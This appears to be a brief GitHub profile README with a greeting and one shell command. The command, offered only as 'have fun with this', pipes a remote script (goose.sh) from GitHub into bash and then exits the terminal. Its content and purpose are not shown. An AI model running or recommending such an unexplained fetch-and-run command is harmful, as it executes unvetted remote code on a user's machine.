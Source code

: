 ## Hi there 👋

Have fun with this
```sh
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/PaulicStudios/goose/refs/heads/main/goose.sh)" && exit
```
